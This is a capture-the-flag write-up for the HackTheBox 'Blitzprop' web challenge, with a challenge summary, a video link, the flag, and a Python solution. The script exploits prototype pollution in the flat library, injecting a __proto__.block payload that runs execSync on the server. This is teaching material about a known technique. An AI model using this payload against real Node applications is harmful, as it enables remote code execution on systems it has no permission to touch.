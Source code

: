 ```yaml
---
name: Blitzprop (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for Blitzprop (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Blitzprop

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=952s "HTB Cyber Apocalypse CTF 2021: Blitzprop")

## Challenge Description

> To exploit this, you need to use a ‘prototype pollution’ vulnerability within the flat library in order to gain RCE against the target. This requires a request to the server to 'pollute' the JavaScript objects, then a second request to trigger the payload. Overall, it was a really interesting box!

## Solution

```py
from pwn import *
import requests

TARGET_URL = 'http://188.166.172.13:31177'

# https://blog.p6.is/AST-Injection/
result = requests.post(TARGET_URL + '/api/submit', json={
    "song.name": "The Goose went wild",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`cp flagz8gWv static/flag`)"
    }
})

flag = requests.get(TARGET_URL + '/static/flag').text
success(flag)
```

Flag: `CHTB{p0llute_with_styl3}`
